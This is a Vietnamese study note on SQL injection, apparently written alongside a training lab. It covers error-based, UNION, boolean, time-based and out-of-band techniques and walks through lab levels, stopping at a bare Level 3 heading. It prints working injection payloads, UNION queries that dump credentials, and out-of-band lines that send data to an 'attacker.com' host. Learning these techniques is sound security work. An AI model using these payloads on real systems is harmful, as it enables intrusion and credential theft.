# **SQL Injection Introduction**
## **1. Introduction**
- SQL Injection (SQLi) là 1 trong lỗ hổng phổ biến trong những lỗ hổng web phổ biến nhất
- Nó xảy ra khi attacker có thể thao túng câu lệnh SQL 
- Hậu quả: truy cập dữ liệu trái phép, sửa hoặc xóa các bản ghi, trong một số trường hợp còn có toàn quyền điều khiển DB

## **2. SQL Essentials for Injection**
### **Comment**
- Comment sẽ nói với DB rằng hãy bỏ qua tất cả những gì sau nó
- Thường sẽ dùng `--` hoặc `#` trên 1 dòng; đôi khi là `/* */` trên nhiều dòng
- Nó rất cần thiết bởi vì nó có thể là dấu hiệu để phát hiện SQLi do nó có thể phá vỡ cấu trúc của câu lệnh SQL ban đầu để có thể tiêm câu lệnh mà attacker mong muốn

Ví dụ: Truy vấn ban đầu là:
```sql
SELECT * FROM users WHERE username='INPUT' AND password='secret';
```
- Nhưng khi nhập:  `admin'--`, truy vấn trở thành:
```sql
SELECT * FROM users WHERE username='admin'-- AND password='secret';
```

- Ta có thể thấy rằng khi này, chức năng chỉ kiểm tra tài khoản mà không kiểm tra mật khẩu do mệnh đề `AND` đã bị comment lại và không có tác dụng

### **UNION**
- **UNION** là toán tử có thể kết hợp kết quả của 2 hay nhiều kết quả của **SELECT** vào cùng 1 kết quả
- Quy tắc: Khi **UNION** thì các kết quả của **SELECT** phải có cùng số cột
- Nó dùng đẻ lấy những thông tin nhạy cảm bằng cách hiện thị cùng với những thông tin công khai

### **LIKE and Wildcards**
- Toán tử `LIKE` thực hiện tìm kiếm 1 chuỗi trong 1 chuỗi khác
- `%`: thể hiện 1 hoặc nhiều các kí tự
- `_`: thể hiện đúng 1 kí tự

```sql
SELECT * FROM users WHERE username LIKE 'adm%';
```

## **LIMIT**
- `LIMIT` dùng để giới hạn số hàng được trả về
```sql
SELECT * FROM users LIMIT 1;       -- trả về hàng đầu tiên
SELECT * FROM users LIMIT 2, 1;    -- bỏ qua 2 hàng đầu, trả về hàng thứ 3
```
## **String Functions**
- Hàm `group_concat()` dùng để nối các kết quả của kết quả SELECT về 1 chuỗi
- ví dụ: thay vì trả về `admin` là 1 cột, `password` là 1 cột, nó sẽ trả về chuỗi `admin:password` (*với `:` là dấu phân tách tùy chọn*) 

```sql
SELECT group_concat(username, ':', password SEPARATOR '<br>') FROM users;
-- Returns: admin:pass123<br>martin:secret<br>jim:work456
```

- Hàm `CONCAT()` cũng tương tự

### **The information_schema Database**

- Cả MySQL, MariaDB và PostgreSQL đều được xây dụng dựa trên `information_schema`,  nó chứa những thông tin về tất cả các Db khác: tên DB, tên bảng, tên cột, kiểu dữ liệu
- Nó có 2 bảng:
    - information_schema.tables: chứa danh sách tất cả các bảng
        - Cột `table_schema`: chứa tên DB
        - Cột `table_name`: chứa tên bảng
    - information_schema.columns: chứa tất cả các cột
        - `table_name`, `column_name`: cho phép khám phá cấu trúc của tất cả các bảng 

## **3. What is SQL injection**
- SQL injection xảy ra khi ứng dụng web nối trực tiếp input của người dùng vào câu lệnh SQL mà không thực hiện kiểm tra hoặc tham số hóa
- Nó cho phép attacker có thể thay đổi logic của câu lệnh

---

- Ví dụ 1 trang web trả về ID của người dùng `1` bằng URL: `https://website.thm/article?id=1`
- Khi đó, phía backend sẽ thực hiện câu truy vấn 
```sql
SELECT * FROM articles WHERE id = 1 AND public = 1;
```

- Sau đó nó trả kết quả về cho frontend rồi hiện thị cho người dùng

---

- Logic xử lý của web:
```php
$query = "SELECT * FROM articles WHERE id = " . $_GET['id'] . " AND public = 1;";
```

- Nếu ta thay đổi tham số bằng 1 phần của truy vấn SQL `?id=1 OR 1=1--`, thì truy vấn sẽ trở thành
```sql
SELECT * FROM articles WHERE id = 1 OR 1=1-- AND public = 1;
```
- `OR 1=1` làm cho mệnh đề `WHERE` luôn đúng, và `--` đã bỏ qua phần `AND public = 1` 
- Vì vậy, truy vấn sẽ trở về tất cả những sản phẩm có ở trong bảng `articles`

---

- Có `3` kiểu SQL Injection:
    - **In-Band SQL Injection**: Khi mà kết quả của câu lệnh truy vấn được trả ra thẳng web
        - **Error-Based**: trả về lỗi và lộ ra cấu trúc của DB
        - **Union-Based**: mệnh đề `UNION` sẽ thêm truy vấn thứ 2 và lấy data trả về cùng truy vấn thứ 1
    - **Blind SQL Injection**: khi web tồn tại lỗ hổng nhưng lỗi hoặc kết quả của nó không được hiển thị ra web
        - Authentication Bypass
        - Boolean-Based
        - Time-Based
    - **Out-of-Band SQL Injection**: thực hiện những request ra ngoài để kiểm tra và lấy dữ liệu

---

- Cách phát hiện SQL Injection: ta cần phải tìm tất cả những bề mặt mà có thể tương tác với DB

- Cách đơn giản nhất để phát hiện là thêm các kí tự và quan sát phản hồi
    - `'`
    - `"`
    - `;--`
    - `OR 1=1`
>Lưu ý: không phải tất cả các ứng dụng đều hiển thị lỗi hay trả về kết quả, chúng có thể ẩn đi những lỗi đó, khi đó ta cần các kĩ thuật khác như **Boolean-Based** hoặc **Time-Based** để xác nhận được lỗ hổng

## **4. In-Band SQL Injection**
- In-band có nghĩa là nơi nào ta gửi injection thì nơi đó sẽ trả về kết quả

---

### **Error-Based SQL Injection**
- Error-Based SQL Injection khai thác lỗi được hiển thị cho user, khi web bị cấu hình sai và hiển thị nguyên lỗi dạng thô và có thể leak những thông tin như cấu trúc câu lệnh, tên bảng, thậm chí là tiết lộ cả data
- Ví dụ khi ta điền 1 dấu `'`, web sẽ trả về lỗi: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' at line 1`

--- 
### **Union-Based SQL Injection**
- Union-Based SQL Injection sử dụng toán tử UNION để kết hợp các kết quả của SELECT lại thành 1 
- Bước 1: Xác định số cột
```sql
1 UNION SELECT 1          -- error (wrong column count)
1 UNION SELECT 1,2        -- error (still wrong)
1 UNION SELECT 1,2,3      -- success! The table has 3 columns
```
- Bước 2: Xác định cột nào được hiển thị, bởi vì không phải tất cả kết quả của truy vấn đều được hiện thị
```sql
0 UNION SELECT 1,2,3
```

Nếu kết quả trên xuất hiện `3` được hiển thị ra màn hình tức đó là cột được hiển thị

- Bước 3: Lấy tên của DB
```sql
0 UNION SELECT 1,2,database()
```
Ta sẽ sử dụng hàm `database()` để lấy được tên của DB hiện tại

- Bước 4: Liệt kê những bảng bằng `information_schema.tables`

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'database_name'
```

- Bước 5: Liệt kê các cột

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'target_table'
```

- Bước 6: Lấy dữ liệu
```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM target_table
```

Nó sẽ trả về tất cả username/password dưới dạng có thể đọc được

## **5. Blind SQL Injection: Authentication Bypass**
- Blind SQL Injection xảy ra khi web có tồn tại lỗ hống nhưng nó không hiển thị lỗi hay kết quả ra màn hình
- Khi đó ta không thể biết được rằng mình đã thực hiện được hành động inject chưa
- Authentication bypass là 1 trong những bề mặt điển hình cho Blind SQLi, bởi vì bạn chỉ có thể nhìn được rằng bạn đã đăng nhập được hay chưa

------

- Cấu trúc câu truy vấn của cơ chế xác thức có thể như sau:
```sql
SELECT * FROM users WHERE username='bob' AND password='secret123' LIMIT 1;
```

- Web sẽ thực hiện câu truy vấn và kiểm tra: nếu có 1 cột được trả về thì tức là thông tin hợp lệ và cho phép đăng nhập; ngược lại thì không hợp lệ và không cho đăng nhập
- Vì vậy, web chỉ cho phép bạn thấy được `Invalid credentials` nếu việc đăng nhập không thành công

---

- Nếu ta nhập ' OR 1=1;-- vào trường username, thì câu lệnh sẽ có cấu trúc
```sql
SELECT * FROM users WHERE username='' OR 1=1;--' AND password='anything' LIMIT 1;
```
- Điều đó làm cho kết quả của câu lệnh luôn có ít nhất là 1 hàng 
- Và khi đó, web sẽ cho phép ta đăng nhập vào người dùng đầu tiên trong bảng

---
- Nếu mục tiêu là một user cụ thể, ta chỉ cần thêm username vào trường username: `admin'--`

```sql
SELECT * FROM users WHERE username='admin'--' AND password='anything' LIMIT 1;
```

- Khi này thì nhánh xác thực `password` đã bị comment, vì vậy chỉ cần `username` là đã có thể đăng nhập

--- 
### **Các biến thể**
- Các payload được tiêm vào thành công phụ thuộc vào cấu trúc của câu truy vấn:
    - `' OR 1=1;--`: bypass cơ bản, nó hoạt động khi username được bao ở trong 1 dấu `'`
    - `' OR 1=1#`: sử dụng dấu `#` để comment 
    - `" OR 1=1--` sử dụng dấu `"` để thay thế `'`
    - Thử trên cả trường `username` và     `password`, đôi khi ứng dụng có thể chỉ bị lỗi 1 trong 2

## **6. Blind SQL Injection: Boolean and Time-based**

### **Boolean-Based Blind SQL Injection**
- Boolean-Based được sử dụng khi ta cần lấy được thông tin cụ thể bằng cách thử các mệnh đề `TRUE/FALSE`
- Giả sử khi truy vấn 1 web (`https://website.thm/checkuser?username=admin`) trả về kết quả `{"taken":true} `nếu tồn tại kết quả; ngược lại trả về `{"taken":false}` 
- Truy vấn có dạng:
```sql
SELECT * FROM users WHERE username = '%username%' LIMIT 1;
```

---

- Bước 1: Xác nhận lỗ hổng
- 
```sql
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```

Ở đây mệnh đề `WHERE` luôn trả về `TRUE` bởi vì `%` đại diện cho tất cả 

Khi đó web sẽ trả về kết quả `{"taken":true}`, khi đó ta xác nhận được rằng có lỗ hổng 

- Bước 2: Đoán tên của bảng, từng kí tự một

```sql
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--
```

Nếu trả về `{"taken":false}` nghĩa là chữ cái đầu không bắt đầu bằng kí tự `a`,  vậy thì ta tiếp tục thử `b%`, `c%`, ... tiếp tục cho đến khi trả về `{"taken":true}`

- Bước 3: Lấy tên bảng và tên cột

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'db_name' AND table_name LIKE 'a%';--
```

> Cách này tuy chậm nhưng nó chính xác ngay cả khi không nhìn thấy output của web

---

### **Time-Based Blind SQL Injection**
- Time-Based Blind SQLi xảy ra khi web không cho bạn bất kì thứ gì trong response, chúng giống nhau trong mọi phản hồi: nội dung, status code, header mọi thứ đều giống nhau trừ thời gian nhận được response
- Hàm `SLEEP()` tạm dừng thực thực thi lệnh trong 1 khoảng thời gian chỉ định được tính bằng giây
- Khi đặt nó trong một mệnh đề, DB chỉ thực hiện tạm dừng khi mệnh đề đó đúng
```sql
admin123' UNION SELECT SLEEP(5),2 WHERE database() LIKE 's%';--
```

- Trong trường hợp trên, nếu tên của DB thực sự bắt đầu bằng kí tự `s` thì thời gian nhận được phản hồi là `5s`

---

- Bước 1: Tìm số cột: ta sẽ dùng mệnh đề UNION kết hợp với SLEEP(), thử từng số lượng cột, nếu đúng thời gian nhận phản hồi sẽ có sự khác biệt

```sql
admin123' UNION SELECT SLEEP(5);--        -- no delay (wrong count)
admin123' UNION SELECT SLEEP(5),2;--      -- 5 second delay (2 columns!)
```

- Bước 2: Liệt kê dữ liệu: quá trình này cũng dùng toán tử LIKE để duyệt qua từng kí tự

> **Lưu ý**: Tốc độ mạng cũng ảnh hưởng đến thời gian nhận được phản hồi, vì vậy để chắc chắc thì ta cần đặt thời gian từ 5 đến 10 giây 
> MSSQL thì dùng `WAITFOR DELAY '0:0:5'`

## **7. Out-of-Band SQLi**
- Out-of-Band hoạt động bằng cách bắt web phải gửi một kết nối ra bên ngoài (*nơi mà ta có thể kiểm soát*)

- Cách này thường sử dụng DNS hoặc HTTP, nó mang theo những dữ liệu mà kĩ thuật này lấy được 

- OOB được áp dụng khi tất cả những phương pháp bên trên đều thất bại:
    - In-band không hoạt động bởi vì nó không show kết quả hoặc lỗi
    - Boolean-based không hoạt động bởi vì tất cả những phản hồi đều giống nhau
    - Time-based không hoạt động vì chặn hàm SLEEP() hoặc không được tin tưởng vì tín hiệu mạng đang rất nhiễu
- Để thực hiện được OOB thì server cần thực hiện kết nối ra bên ngoài, nếu Firewall cũng chặn kết nối này thì OOB cũng không thể hoạt động

---

- Có 2 kênh hoạt động trong OOB:
    - Attack Channel: web bình thường để ta có thể gửi payload đi
    - Data Channel: 1 kết nối mạng ra bên ngoài kết nối tới server của chúng ta, trong đó nó mang theo cả những dữ liệu mà nó lấy được

---
### **MySQL**
- Trong MySQL, ta thường sử dụng hàm `LOAD_FILE()` để  thực hiện 1 truy vấn DNS ra bên ngoài
- Ta nhúng data bằng:
```sql
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.attacker.com\\share'));
```

- Trong lệnh trên, hàm `(SELECT database())` để lấy ra tên của DB 
- `CONCAT()` dùng để tạo nên chuỗi `\\webapp_db.attacker.com\share` 
- `LOAD_FILE()` dùng để gửi 1 kết nối đọc file trên web. Trên Windows, đầu tiên nó sẽ thực hiện truy vấn `DNS` tên miền `webapp_db.attacker.com`
- Server của ta sẽ nhận được request và ghi log `webapp_db`. Nó được gửi đến như một subdomain

---
### **MSSQL Techniques**
- `xp_dirtree` sẽ thực hiện truy vấn DNS đến thư mục trên remote server
```sql
EXEC master..xp_dirtree '\\attacker.com\share';
```

- `xp_cmdshell` chạy câu lệnh trực tiếp trên OS, ta có thể dùng `nslookup` hoặc `curl` 
```sql
EXEC xp_cmdshell 'nslookup data.attacker.com';
```

> Thông thường `xp_cmdshell` thường bị tắt mặc định trên các phiên bản mới 

## **8. Practical**
### **Level 1**


- Khi vào trang web sẽ cho ta giao diện của 1 trang web đang truy cập đến bài báo có `ID = 1`



- Khi thêm dấu `'` ta thấy web đã trả về lỗi và có thể biết đây chính là `MySQL` 



- Khi ta truyền vào `0 UNION SELECT 1,2,3` thì thấy web hiển thị lần lượt các số **1, 2, 3** mà ta truyền vào



- Ta lấy tên của DB là `sqli_one` bằng hàm `database()`



- Sau khi biết tên DB, lấy tất cả các bảng trong DB đó `0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`
- Ta được 2 bảng là `article` và `staff_users`



- Tiếp theo ta sẽ lấy tất cả các cột trong bảng `staff_users` bằng `0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`
- Ta lấy được tên của 3 cột là `id`,`username`,`password`



- Cuối cùng ta lấy ra password của user martin

---
### **Level 2**


- Ban đầu vào ta đã thấy 1 form đăng nhập, ý tưởng là dùng `OR 1=1` và dấu `--` để comment bỏ đi phần xác thực mật khẩu đằng sau
- Nhưng khi thực hiện thì vẫn thấy DB thực hiện truy vấn cả 2 mệnh đề đằng sau, lí do: trong MySQL, dấu comment chỉ bỏ qua những thứ đằng sau nó ít nhất 1 dấu cách hoặc dấu enter
- Trong trường hợp này, do đằng sau dấu `--` 1 dấu cách `' OR 1=1-- `



--- 
### **Level 3**
